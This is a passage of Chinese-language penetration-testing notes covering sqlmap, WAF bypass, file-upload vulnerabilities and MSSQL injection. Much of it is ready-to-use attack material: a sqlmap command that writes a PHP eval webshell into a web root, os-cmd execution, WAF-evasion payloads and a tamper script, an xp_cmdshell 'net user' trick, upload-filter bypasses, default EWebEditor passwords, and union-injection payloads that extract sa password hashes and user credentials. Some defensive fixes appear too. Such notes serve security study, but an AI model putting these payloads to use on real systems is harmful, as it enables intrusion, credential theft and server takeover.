1. 向文件写入内容
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select 1,2,'aaa' into outfile 'D:\phpstudy_pro\test5.txt'" --batch
2. 写入webshell
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select '<?php eval($_POST[1]);?>' into outfile 'D:\phpstudy_pro\WWW\shell3.php'";		//可以转化为16进制写入
3. 获取绝对路径
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@datadir;"
4. 查看secure_file_priv的值
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@secure_file_priv;"
```

##### c. 上传文件

###### ①--file-write、--file-dest

```
sqlmap -u [URL] --file-write [源路径的绝对地址] --file-dest [目的路径的绝对地址]
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --file-write "C:\\123.txt" --file-dest "C:\\phpstudy_pro\\www\\test.php"
```

##### d. 执行命令

###### ①-os-shell \ --os-cmd

* 原理：利用mysql的**outfile、dumpfile等写文件**函数，先写入一个具有上传功能的shell，再上传一个大马，从而执行各种命令。

```
sqlmap -u [URL] --os-cmd="whoami"
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --os-cmd="whoami"
```


### 10.  WAF绕过

#### (1). 概述

##### a. 介绍

* web应用防护系统(Web Application Firewall)
* 针对的是**应用层**
* 通过执行一系列**针对HTTP/HTTPS**的安全策略来**专门为Web应用提供保护**的一种**网络安全产品**
* 增大攻击者的**攻击难度和攻击成本**，但并非完全防护

##### b. 分类

###### ①软件WAF

* 软件形式
* **直接检测**服务器上是否有不安全的**文件和操作**
* 比如：安全狗

###### ②硬件WAF

* 硬件形式
* 模式
  1. 串联链路：**拦截恶意流量**
  2. **旁路监听**模式：**只记录攻击**，不拦截
* 比如：绿盟WAF

###### ③云WAF

* 使用**反向代理**，通过配置**NS记录**或**CNAME记录**，使网站请求先经过WAF
* 可以说是**带有防护功能的CDN**
* 比如：百度加速乐、安全宝

###### ④代码内置WAF

* 规则直接**镶嵌到代码中**，并于匹配，再过滤
* **自由度较高**

##### c. 工作流程

###### ①基本流程

1. 身份认证
2. 数据包解析
3. 规则系统匹配
4. 是否拦截

###### ②详细流程


1. 首先进行身份验证，白名单的直接给服务器，黑名单直接拒绝访问，非黑非白名单的要去进行数据包的解析
2. 无法解析数据包的也交给下一步进行处理，正常解析的去进行规则判断
3. 没有匹配到规则的给服务器，匹配到规则的进行拦截

#### (2)绕过WAF

##### a. 判断WAF存在

###### ①手工

* 直接在网站url参数后加上**最基础的测试语句**

###### ②自动

* 使用sqlmap自带的**WAF识别模块**可以识别出**WAF的种类**

```
sqlmap -u [URL] --identify-waf --batch
```

* 识别出来的WAF类型为**XXX Web Application Firewall**,没有特征则为**Generic**
* 详细的规则在**sqlmap的waf目录下**，也可以自己编写规则

##### b. 绕过方法

###### ①大小写绕过

1. 只针对**小写或大写**的**关键字匹配技术**

2. **正则不完善**或是没有用**大小写转换函数**

3. 用法

   ```
   -1' UnIon SelEct 1,2,3
   ```

###### ②替换关键字

1. 关键字双写

   * 出现原因：**只验证一次**字符串或字符串**过滤不完整**

   * 用法

     ```
     -1' ununionion seselectlect 1,2,3	//可以构造更复杂的语句
     ```

2. 同价词替换

   * 出现原因：针对**特殊关键字**进行检测

   * 用法

     | 字符 | 替换                   |
     | ---- | ---------------------- |
     | and  | &&                     |
     | or   | \|\|                   |
     | =    | <>                     |
     | 空格 | %20  (url编码)         |
     | 空格 | %09  (tab键，水平)     |
     | 空格 | **%0a  (换行符)**      |
     | 空格 | %a0  (空格)            |
     | 空格 | **%0b  (tab键，垂直)** |
     | 空格 | %0c  (新的一页)        |
     | 空格 | %0d  (return功能)      |
     | 空格 | /**/                   |

3. 特殊字符拼接

   * 出现原因：**拼接特殊字符**来绕过WAF检测

   * 用法

     ```
     id=1;exec(master..xp_cmdshell'net user')
     =>  id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
     ```

###### ③编码绕过

* 出现原因：利用浏览器上的**进制转换或者语言编码规则**来绕过waf
* unicode、HEX、URL、ascii、base64等URL编码

1. URL编码

   * 浏览器会对地址栏中，**非保留字**的字符进行URL编码

   * 用法（可以尝试多次编码绕过）

     ```
     //如果waf拦截了union select
     	1' union select 1,2,3 --+
     => 	1' %75%6E%69%6F%6E %73%65%6C%65%63%74 1,2,3 --+
     ```

2. Unicode编码

   ```
   //如果waf拦截了union select
   	1' union select 1,2,3	(替换了i)
   =>	1' un%u0069on sel%u0065ct 1,2,3
   ```

3. 16进制

###### ④注释绕过

* //、 -- 、/* * /、#、--+、-- -、;、--a、/*! */
* 出现原因：利用**语言函数特性**来绕过waf的规则

1. 普通注释

   * 使用/* * /在构造的**查询语句中插入注释**，规避对**空格的依赖**或**关键字**识别

   * 用法

     ```
     	1' union select 1,2,3
     => 	1' /**/union/**/select 1,2,3
     =>	1' /**/union/**/select 1,2,database/*%!a*/()		# 使用/*%特殊符号*/的形式绕过对/**/的正则过滤
     ```

2. **内联注释**

   * **/*! */**只有mysql能识别

   * 用法

     ```
     1. /*! code*/	内联注释可以用于整个SQL语句中
     2. 过滤了union、where、table_name、table_schema、=、and、information_schema等词，可以使用
     	=> /*!%23/*%0a关键词*/ 来绕过
     	=> /*!99999*/
     ```

###### ⑤参数污染

* HPP(HTTP Parameter Polution)又称作**重复参数污染**，当同一参数出现多次，不同中间件会解析为不同的结果

* 如果WAF**只检测同名参数的第一个或最后一个**，并且**中间件特性**正好取与**WAF相反的参数**，则可成功绕过

  

  ```
  	index.php?id=select 1,2,3 from table
  =>	index.php?id=select 1&id=2,3 from table
  ```

###### ⑥缓冲区溢出

* 许多WAF使用**C语言**写的，而C语言**没有缓冲区保护机制**，测试向量时**超出了其缓冲区长度**时，会引发Bug从而绕过

###### ⑦整合绕过

* 结合使用**前面的各种绕过技术**

###### ⑧分块传输绕过

* 将**传输的内容分块**时，处理后的HTTP请求由于**和已知的payload相差较大**，所以可以起到绕过作用

  

###### ⑨特殊符号绕过

* 使用**反引号 `** 可以绕过**空格和正则**，特殊情况下还可以将其作为注释符用

* 使用 **-+.** ，起到**连接字符串**的作用

  ```
  index.php?id=-1.0 union select"1",2,3
  index.php?id=-1E0 union select~1,2,3
  index.php?id=-1 union select 1,2,version()"from users"
  index.php?id=-1 union select`id`,1,2 from users"
  index.php?id=-1 union select 1,2,version()`from users`
  ```

* 普通括号

  ```
  index.php?id=(-1)union(select(1),(2),(3)from(users))
  index.php?id=(1)or(0x50=0x50)
  index.php?id=(-1)union((((((select(1),hex(2),hex(3)from(users)))))))
  ```

* 花括号

  ```
  index.php?id=-1 union select 1,{x 2},3
  ```

* 等号

  * 使用``like``来替代

  ```
  1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema=database())#
  => 1' union select 1,2,(select group(table_name) from information_schema.tables where table_schema like database())#
  ```

* and和or

  ```
  使用关键字双写、关键字替换、内联注释、多行注释来替代
  ```

* 逗号

  ```
  	1' union select 1,2,3 --+
  => 	1' union select * from (select 1)a join (select 2)b join (select 3)c --+
  ```


###### ⑩过滤掉and和or的盲注

```
index.php?id=strcmp(left((select username from users limit 0,1),1),0x42)#
index.php?id=strcmp(left((select+username+from+users+limit+0,1),1)0x42)#

strcmp()函数，两值相等返回0，小于返回-1，大于返回1

//sql语句为：
select * from users where id=strcmp(left((select username from users limit 0,1),1),0x42);
```

#### (3). Tamper模块

##### a.说明

* sqlmap在**默认情况**下，除了使用**CHAR()**函数**防止出现单引号**，没有对注入的数据进行修改
* 可以使用**--tamper参数对数据做修改**来绕过WAF等设备
* 部分脚本主要使用**正则模块**替换**攻击载荷编码**的方式来尝试绕过WAF

##### b. 用法

```
1. 检测WAF种类
	sqlmap -u [URL] --identify-waf(--check-waf)
2. 绕过WAF
	sqlmap -u [URL] --tamper "模块名"
```

##### c. 模板

* tamper.py文件

```python
from lib.core.enums import PRIORITY
import os
__priority__ = PRIORITY.LOWEST
def dependencies():
    pass
def tamper(payload, **kwargs):
    payload = payload.replace('AND', '/*!%23/*%0aAND*/')
    payload = payload.replace('DATABASE()', 'DATABASE/*$%^a*/()')
    payload = payload.replace('FROM', '/*!%23/*%0afrom*/')
    payload = payload.replace('UNION ALL', 'union/*!99999*/all')
    payload = payload.replace('SESSION_USER()', 'USER()')
    payload = payload.replace('USER()', 'USER/*////*/()')
    return payload
```

##### d. 常用tamper



#### (4). SQL语句变形

###### ①空格被过滤

| 符号 | 替换内容               |
| ---- | ---------------------- |
| 空格 | %20  (标准空格)        |
| 空格 | %09  (tab键，水平)     |
| 空格 | **%0a  (换行符)**      |
| 空格 | %a0  (不间断空格)      |
| 空格 | **%0b  (tab键，垂直)** |
| 空格 | %0c  (新的一页)        |

###### ②单引号被过滤

* 将字符转换为16进制，不使用单引号

  ```
  	select * from users where username='Dumb'
  =>	select * from users where username=0x44756d62
  ```

###### ③逗号被过滤

```
1. from to
	select substr(database(),1,1);
	=> select substr(database() from 1 to 1);
2. join
	select 1,2,3
	=> select * from (select 1)a join (select 2)b join (select 3)c
3. offset
	select * from users limit 0,1;
	=> select * from users limit 1 offset 0;
```

###### ④逻辑判断符被过滤

```
1. 等于号(=)绕过
	①1' or 1=1  =>  1' or 1<>1
	②1' or 1=1  =>  1' or 1 like 1a
2. 单个比较符的绕过
	①sqlmap可以使用between脚本，用greatest()返回给定表达式中最大值，least()返回给定表达式中最小值
		select * from users where id=1 and ascii(substr(user(),1,1))>100
		=> select * from users where id=1 and greatest(ascii(substr(user(),1,1)),100)=100
	②使用字符编码
		a. 实体编码   < => &lt;   > =>  &gt;
		b. ASCII码	< => %3C	> =>  %3E 
		c. Unicode编码	< => \u003C   > =>  \u003E
	③使用替代函数
		<  => CHAR(60)   >  =>  CHAR(62)
```

###### ⑤or and xor not绕过

```
1. 使用逻辑判断符替代
	and  =>  &&
    or   =>  ||
    xor  =>  |
    not  =>  !
2. 使用内联注释
	/*!and*/、/*!%23/*%0aand*/
```

###### ⑥函数过滤

```
1. sleep()	=> benchmark(10000000,md5(1))
2. ascii()  =>  ord()
3.  group_concat()	=>  concat_ws()
		例如：select group_concat(1,' -- ',1,' -- ',1)  => select concat_ws(' -- ',1,1,1)
4. substr()  =>  mid()、substring()、left()、right()
```

###### ⑦常见绕过方式

```
1. 绕过关键字检测
    a. user() --> user/*//--//*/()  或  database/*%!a*/()
    b. from  -->  /*!%23/*%0aform*/
    c. 大小写替换
    d. 重复关键字
2. 绕过2个及以上检测语句
union select  --> union/*//--/*/select
union select 1,2,3 -->   union /*!--+/*%0aselect/*!1,2,*/ 3
```


## 五、文件上传

### 1. 概述

#### (1). 简介

* 文件上传漏洞是指程序员在**开发任意文件上传**功能时，**并未考虑文件格式后缀的合法性校验，**或只考虑在**前端通过js进行后缀检验**

  

#### (2). 成因

1. **未过滤**或Web前后端**过滤被绕过**
2. **文件检测**被绕过
3. **中间件**解析
4. **不完善**的黑名单扩展名
5. 文件路径**截断**
6. HTTP**不安全方法**(PUT)

#### (3). 高危触发点

1. 头像、相册上传
2. 视频、图片分享
3. 论坛发帖、留言、邮箱附件上传
4. 添加文章图片
5. 编辑器文件上传
6. 后台添加模板类

#### (4). 利用条件

1. Web服务器**开启文件上传**功能，且上传api对外开放(即用户可以访问)
2. Web用户对目标**目录具有可写权限甚至执行权限**(一般情况下都有执行权限)
3. **Web容器可以解析上传的脚本**，无论脚本以什么形式存在
4. 服务器配置不当，开启PUT方法时忽略以上条件

#### (5). 防御

* 即最好**过滤掉图片马中的恶意代码**，防住**危险的脚本类型**

##### a. 代码角度

1. 采用**白名单策略**，严格限制上传文件的后缀名
2. 进行**二次渲染**，过滤掉图片马中的恶意代码
3. 上传**文件重命名**，尽量少的从客户端获取信息
4. 避免**文件包含漏洞**
5. 严格**处理文件路径**、防御00**截断漏洞**，避开空格、点、::`$`DATA`$`等**Windows特性**

##### b. 服务器角度

1. **及时更新Web容器**，防止解析漏洞的产生
2. **可写目录不给执行权限**

### 2. 前端检测

#### (1). 前端JS检测

* JS代码通常采用**白名单策略，检测文件后缀名**，配合表单事件使用，**安全防御十分薄弱**，可以轻松绕过

##### a. 修改JS代码

* JS运行环境为浏览器，可以**直接修改JS代码，甚至删除表单事件，禁用JS**

##### b. 修改文件后缀

1. 先使用**白名单后缀名**，绕过JS检测，上传数据包
2. 再使用**Burp拦截**数据包，**修改后缀名为原后缀**

#### (2). 修改MIME

* MIME是描述**消息内容类型**的因特网标准

* MIME消息能包含文本、图像、音频、视频以及其他应用程序专用的数据，当具有该扩展名的文件被访问时，浏览器会自动使用指定的应用程序打开

* 使用Content-Type字段指定文件的MIME类型

  

### 3. 文件头检测

#### (1). 概念

* 文件头是**位于文件开头**的一段承担一定任务的数据，就是为了**描述文件的一些重要属性**，例如图片长度、宽度、像素尺寸等

##### a. 文件头结构


##### b. 常用图片格式文件头

| 图片格式 | 文件幻数(image number)  |
| -------- | ----------------------- |
| PNG      | 89 50 4E 47 0D 0A 1A 0A |
| JPG      | FF D8 FF E0 00 10 4A 46 |
| GIF      | 47 49 46 38 39 61       |

##### c. 常见文件头对应关系

| 文件类型       | 文件头                                            |
| -------------- | ------------------------------------------------- |
| jpeg、jpg、png | JPGGraphic File                                   |
| GIF            | GIF89A                                            |
| doc、xls、ppt  | MS Compound Document v1 or Lotus APProach APRfile |
| zip            | Zip Compressed                                    |

#### (2). 绕过方法

##### a. 添加文件头

* 在恶意脚本前加上文件头

##### b. 制作图片马

##### c. 图片加webshell脚本

* 使用 010 editor等编辑工具打开一张图片，在图片中加上webshell脚本

### 4. 黑名单检测

#### (1). 文件大小写绕过

* 黑名单上不存在pHp等包含**大写字母的文件名**，则考虑使用

#### (2). 特殊文件名绕过

* Windows系统会**自动过滤不符合规则符号**后面的内容

  | 符号      | 案例              |
  | --------- | ----------------- |
  | `.`       | `test.php.`       |
  | 空格      | `test.php(空格) ` |
  | `:1.jpg`  | `test.php:1.jpg`  |
  | `::$DATA` | `test.php::$data` |

#### (3). Windows流绕过

* Windows系统会识别文件流标识，前面内容不会检测

  | 上传文件名      | 服务器表面现象 | 生成文件内容         |
  | --------------- | -------------- | -------------------- |
  | test.php:1.jpg  | 生成test.php   | 空                   |
  | test.php::$DATA | 生成test.php   | `<?php phpinfo();?>` |

* Linux系统下可以尝试**后缀名大小写**

#### (4). 00截断绕过

* 0x00(%00)是字符串的**结束标识符**，可以利用**抓包并手动添加**字符串标识符的方式来将后面的内容进行截断

##### a. 利用条件

* php版本小于**5.3.4**
* php的**Magic_quotes_gpc为OFF**状态

##### b. 方法

1. 知道上传路径
   * 利用burp抓包，再上传路径后面加上1.php%00，然后将%00进行url编码。
2. 不知道上传路径
   * 文件名改为1.php+.jpg，使用burp抓包后，**将+的hex数值改为00**

#### (5). 解析漏洞绕过

* **web容器**首先会根据文件的**后缀名**，决定**如何处理这个请求**；获取到后缀名后，再在服务器端**寻找可以处理**这类后缀名的**应用程序**，如果**找不到**，则直接将文件返**还给客户端**

##### a. Apache

1. 多后缀

   1. 存在版本

   * **Apache1.x**和**Apache2.x**

   2. 解析规则

      * **从右向左**开始判断解析，如果后缀名为**不可识别文件解析**，则**往左判断**，直到能识别，**否则会暴露其源码**

      * 能够识别的文件可以在**mime.types**文件中查看

      * ```
        访问/test.php.aaa.bbb		apache会右往左解析，直到.php
        ```

   3. 修复建议

      * **后缀验证**尽量使用**白名单**的方式

2. 配置问题

   1. 产生原理

      * 如果Apache的conf里有这样一行配置`AddHandler php5-script.php`，这时只要**文件名里包含.php**，即使文件名是**其他后缀**，也**会以php来执行**

      * 如果在Apache的conf里有这样一行配置`AddType application/x-httpd-php .jpg`，**即使扩展名是.jpg**，一样以php方式执行

   2. 修复建议

      * apache配置文件中，禁止`.php.*` 这样的文件执行，**配置文件里**面加入以下代码

        ```
        <Files~".(php.|php3.)">
        	Order Allow,Deny
        	Deny from all
        </Files>
        ```

      * 使用**伪静态**能解决这个问题，重写类似.php.*这类文件，打开apache的httpd.conf找到

3. htaccess文件解析

   * htaccess文件可以**修改MIME类型**，如果.htaccess文件可以上传，就尝试使用**.htaccess来配置其他文件**

   * .htaccess文件内写入以下内容，成功后可以将指定后缀名文件解析为.php文件

     ```
     <FileMatch ".jpg"> SetHandler application/x-httpd/php</FilesMatch>
     or
     AddType application/x-httpd/php .jpg
     or
     SetHandler application/x-http-php
     ```

##### b. IIS6.0

1. 目录解析

   1. 形式

      * ```
        /xx.asp/xx.jpg
        ```

   2. 原理

      * 在网站下创建文件夹名字为`.asp` 、`.asa`的文件夹，其**目录内的任何扩展名的文件**都被当做**asp文件**来解析并执行

2. 文件解析

   1. 形式

      * ```
        /xx.asp;.jpg	(利用特殊符号冒号;)
        ```

   2. 原理

      * 在IIS6.0下，服务器**默认不解析**`;`后面的内容

3. 解析文件类型

   1. 形式

      * ```
        /test.asa 、 /test.cer 、 /test.cdx
        ```

   2. 原理

      * IIS6.0默认的可执行文件除了asp还包括这三种`asa` `cer` `cdx`，会将这三种扩展文件解析为**asp文件**

#### (6). 常见解析漏洞

##### a. PHP CGI解析漏洞

* 又称为IIS7.0/IIS7.5/Nginx1.x畸形解析漏洞

  1. 利用条件

     1. **Fast-CGI运行模式**
     2. **php.ini文件cgi.fix_pathinfo**=1(默认为1)
     3. 取消勾选**php.cgi.exe**程序的 “Invoke handler only if request is mapped to”

  2. 形式

     * ```
       如果在一个文件路径/xx.jpg后面加上/xx.php，会将/xx.jpg/xx.php解析为php文件
       ```

  3. 修复方法

     1. 配置php.ini例cgi.fix_pathinfo=0，并重启服务器
     2. 在模块映射中勾选请求限制

##### b. 空字节代码执行漏洞

* Nginx<8.03

  1. 影响版本

     * 0.5、0.6、0.7<=0.7.65，0.8<0.8.37

  2. 原理

     * 在使用php-FastCGI执行php时，URL遇到**%00空字节**时，与**FastCGI处理不一致**，导致可以在图片中**嵌入PHP代码**然后通过访问``xx.jpg%00.php` 来执行其中的代码

  3. 修复方法

     1. 在nginx中配置，禁止再上传目录下执行php，或在fcgi.conf配置中加入如下代码：

        ```php
        if($request_filename~*(.*)\.php) {
        	set$php_url$1;
        }
        if(!-e$php_url.php){
        return403;
        }
        ```

     2. 升级到最新版的nginx


### 5. 编辑器漏洞

#### (1). 介绍

* 编辑器就是网页后台编辑网页的**在线编辑器**，自动集成了**文件上传**、图片视频上传、远程下载等功能，减少了程序开发的时间
* 编辑器比网站自带的上传按钮安全性高，但这些编辑器的某些版本**存在文件上传漏洞**，因此也存在**通用型漏洞**带来的危害

#### (2). 常见分类

* **FCKeditor**
* **Ewebeditor**
* Ueditor
* KindEditor
* XHeditor

#### (3). FCKeditor

* 开源HTML文本编辑器，可以为用户提供微软office软件一样的**在线文档编辑服务**
* 不需要安装任何客户端，兼容绝大多数主流浏览器，支持PHP、JSP、ASP、Python等环境

##### a. 漏洞版本

| 版本                   | 漏洞说明                                                     |
| ---------------------- | ------------------------------------------------------------ |
| Version2.2             | Apache + Linux环境下，在上传文件后面加个`.`突破              |
| Version<=2.4.2 for php | 上传的地方并未对Media类型进行上传文件类型的控制，导致用户上传任意文件 |
| **Version <=2.4.3**    | **FCKeditor被动限制策略所导致的过滤不严问题**                |
| 较高版本               | FCKeditor文件上传`.`变成`_`下划线                            |

##### b. 较高版本对应漏洞

###### ①查看版本

```
方法1：  /fckeditor/editor/dialog/fck_about.html
方法2：  /fckeditor/_whatsnew.htm
```

###### ②查看上传地址

```
/fckeditor/editor/filemanager/connectors/test.html
/fckeditor/editor/filemanager/connectors/uploadtest.html
/fckeditor/editor/filemanager/browser/default/connectors/test.html
/fckeditor/editor/filemanager/upload/test.html
```

###### ③验证漏洞

```
1. 在上传页面创建一个文件夹test.asp，结果变成了test_asp
2. 使用递归创建or二次创建
	指令：/fckeditor/editor/filemanager/connectors/asp/connectors.asp?command= CreateFolder&Type=类型&CurrentFolder=/一级目录名&Newfoldername=二级目录名
```

* 在一级目录`test.asp`中上传一个木马，然后就可以getshell了

#### (4). Ewebeditor

* 使用**默认的EWebEditor编辑器配置**安全风险最高，默认情况下其编辑器的**数据库可以通过浏览器下载**，一旦**破解其后台**管理账号和密码，则可以通过**修改其样式管理**，达到**上传asp网页木马**的目的

##### a. 默认信息

1. 默认数据库路径

   ```
   /db/ewebeditor.mdb
   /db/db.mdb
   /db/%23ewebeditor.mdb
   ```

2. 默认密码

   ```
   admin/admin888
   admin/admin
   admin/123456
   ```

3. 系统默认

   ```
   ewebeditor.asp?id=content1&style=standards
   ```

4. 默认管理地址

   ```
   2.80以前
   	ewebeditor/admin_login.asp
   以后版本
   	admin/login.asp
   ```

##### b. 存在的漏洞


### 6.  漏洞查找步骤


## 六、MSSql注入

### 1. 概述

#### (1). 介绍

* 微软开发的**SQLServer数据库服务器**，它是一个数据库平台，提供数据库的**从服务器到终端的完整解决方案**，其中数据库服务器部分，是一个**数据库管理系统**，用于建立、使用和维护数据库。

#### (2). 利用总结

* SQLServer默认开放端口为**TCP1433**

#### (3). 技战法

1. SQL注入查登录用户Hash
2. 扩展存储过程xp_cmdshell执行命令
3. 系统存储过程sp_oacreate + sp_oamethod执行命令
4. 扩展存储过程xp_regwrite写注册表(映像劫持、远程桌面、开机启动项等)
5. 利用CLR组件执行系统命令
6. 系统存储过程sp_addextendproc恢复组件
7. 差异备份写webshell
8. 日志备份写webshell

#### (4). 视图和表

* 表是**真实存在的有效数据**，而视图相当于固定的sql语句，只是**表或多张表关系的联合表达**

##### a. 区别

1. 表是**真实存在**的，而视图只是一串sql脚本，虚拟存在
2. 表需占用**物理空间**，而视图理论上可以不占用物理空间
3. 视图可以将多个表呈现给**用户**，而表只可以呈现**自身**
4. 视图可以**随意删除和重建**，而表的删除会导致**数据丢失**

##### b. 联系

1. 视图依赖于(多张)表
2. 使用视图可以增强表的安全性

##### c.  数据库级别

服务器级 -> 数据库级 -> 架构级 -> 数据对象级 

```
Server.Database1.dbo.Table1;
```

#### (5). 默认库

* **master**、model、tempdb、msdb

##### a. master数据库

* 包含所有的**配置信息、用户登录信息、当前服务器正在服务器中运行的过程的信息**

##### b. model数据库

* 建立所有用户**数据库的模板**，当新建一个数据库时，SQLServer会将model数据库所有对象拷贝并转移到新数据库中

##### c. tempdb数据库

* 保存所有的**临时表、存储过程**和其他SQLServer建立的临时用的东西

##### d. msdb数据库

* 由Enterprise Manager和Agent使用，记录着**任务计划信息**、事件处理信息、**数据备份**及恢复信息、**警告及异常**信息

#### (6).常用语句

##### a. 创建数据库

```
create database [数据库名]
```

##### b. 删除数据库

```
drop database [数据库名]
```

##### c. 创建新表

```
create table [表名] (
[字段名] [字段类型],
[字段名] [字段类型],
...
)
```

##### d. 删除新表

```
drop table [表名]
```

##### e. 插入新数据

```
insert into [表名]([字段名1],[字段名2]) value(value1,value2)
```

##### f. 删除内容

```
delete from [表名] where 条件
```

##### g. 更新内容

```
update [表名] set field1=value1 where 条件
```

##### h. 查找数据

```
select * from [表名] where field1="内容"
```

### 2. 权限控制

#### (1). 角色与用户

##### a. 概念

1. 一个数据库用户可以对应多个架构，架构里面包含的是**数据库表**

2. 一个数据库角色有可能涉及到多个架构，**数据库角色**对应的是**权限**

3. 一个用户对应一个数据库角色

4. 登录名与数据库用户在服务器级别时一对多的，在数据库级别是一对一的

   ```
   一个用户对应多个架构
   一个用户对应一个数据库角色
   一个数据库角色对应多个用户
   ```

   


##### b. 应用

* 一个用户的最终权限 = **服务器权限** + **数据库权限** + **对象权限**，三个级别的权限是**累加的**，但**拒绝权限是有限的**

#### (2). 固定服务器角色

##### a. 包含

| 固定服务器角色 | 说明                                   |
| -------------- | -------------------------------------- |
| **sysadmin**   | **执行SQLServer中的任何动作**          |
| serveradmin    | 配置服务器设置                         |
| setupadmin     | 安装、复制和管理扩展过程               |
| securityadmin  | 管理登录、数据库创建的权限以及阅读审计 |
| processadmin   | 管理SQLServer进程                      |
| dbcreator      | 创建和修改数据库                       |
| diskadmin      | 管理磁盘文件                           |

##### b. 使用

1. 通过``and 1=(select is_srvrolemember('sysadmin'))``来判断服务器权限

2. 添加、删除固定服务器角色成员

   * **只有固定服务器角色的成员来能执行这2个系统过程**

   ```
   sp_addsrvrolemember
   sp_dropsrvrolemember
   ```

#### (3). 固定数据库角色

##### a. 包含

| 固定数据库角色    | 说明                                               |
| ----------------- | -------------------------------------------------- |
| **db_owner**      | **可以执行数据库中几乎所有动作的用户**             |
| db_accessadmin    | 可以添加、删除用户的用户                           |
| db_datareader     | 可以查看所有数据库中用户表内数据的用户             |
| db_datawriter     | 可以添加、修改或删除所有数据库中用户表内数据的用户 |
| db_ddladmin       | 可以在数据库中执行所有DDL操作的用户                |
| db_backoperator   | 可以备份数据库的用户                               |
| db_denydatareader | 不能看到数据库中任何数据的用户                     |
| db_denydatawriter | 不能改变数据库中任何数据的用户                     |
| **public**        | 提供了所有默认权限                                 |

* 通过``and 1=(select is_member('db_owner'))``来判断数据库权限

### 3. MSSql注入

#### (1). 与SQL注入的区别

##### a. 对象

1. MSSql注入的是：Microsoft SQL SERVER数据库
2. SQl注入的是：MySQL数据库

##### b. 语句

* 注入时使用的语法不同

#### (2). 视图表

| 视图表                         | 说明                         |
| ------------------------------ | ---------------------------- |
| **sys.databases(新式)**        | **所有数据库**               |
| sys.tables(新式)               | 所有表                       |
| sys.columns(新式)              | 所有字段                     |
| sys.sql_login                  | 所有登录名                   |
| information_schema.schemata    | 当前用户数据库中的角色       |
| **information_schema.tables**  | **当前用户数据库中的表**     |
| **information_schema.columns** | **当前用户数据库中的列**     |
| sys.all_columns                | 所有列的集合                 |
| sys.database_principals        | 数据库中每个权限或列异常权限 |
| sys.database_files             | 存储在数据库中的数据库文件   |
| sys.sysdatabases(旧式)         | 数据库中创建的每个数据库     |
| sys.sysobjects(旧式)           | 数据库中创建的每个对象       |
| sys.syscolumns(旧式)           | 数据库中的所有字段名         |

### 4. 注入方式

#### (1). 联合查询

##### a. 基本使用

```
1. 查询数据库版本
	id=-1' union select top 1 1,2,@@version
2. 查询当前数据库名
	id=-1' union select top 1 1,2,db_name()
3. 获取所有数据库名
	id=-1' union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from masters.sys.databases)
```

```
1. 获取当前数据库名
	id=0' union select top 1 1,2,db_name() --+	
	id=0' union select top 1 1,2,name from master.sys.databases  --+
2. 获取其他数据库名
	id=0' union select top 1 1,2,name from master.sys.databases where name not in (select top m name from master.sys.databases) --+		//m表示除当前数据库外的其他名称
3. 获取当前表名
	id=0' union select top 1 1,2,table_name from information_schema.tables --+
4. 获取所有表名
	id=0' union select top 1 1,2,table_name from information_schema.tables where table_name not in(select top m table_name from information_schema.tables)  --+	//m代表表位置
5. 获取当前列名
	id=0' union select top 1 1,2,column_name from information_schema.columns --+	
6. 获取所有列名
	id=0' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in (select top m column_name from information_schema.columns where table_name='users') --+	//m代表字段位置
7. 获取当前数据
	id=0' union select top 1 1,username,password from users --+	
8. 获取所有数据
	id=0' union select top 1 1,username,password from users where username not in(select top m username from users) and password not in(select top m password from users) --+		//m代表第几行数据
```

##### b. 使用总结

* **查询登录用户的HASH密码**

```
id=0' union select 1,2,(select master.dbo.fn_varbintohexstr(password_hash) from sys.sql_logins where name='sa')--+
//利用函数强制转换为16进制，避免受到格式的影响
```

Hash格式：**0x0100(头部)** + **8位salt** + **40位区分大小写的hash**

#### (2). 报错注入

* quotename(name)、cast(name as int)、convert(int,name)

```
1. 判断注入点
	id=1'
	id=1 and 1=1	//返回正常
	id=1 and 1=2	//返回错误		=>  数字型
2. 判断是否为MSSQL数据库
	id=1 and exists(select * from sysobjects) --+	//返回正常为mssql
	id=1 and exists(select count(*) from sysobjects) --+
3. 判断数据库版本号
	id=1 and @@version>0 --+
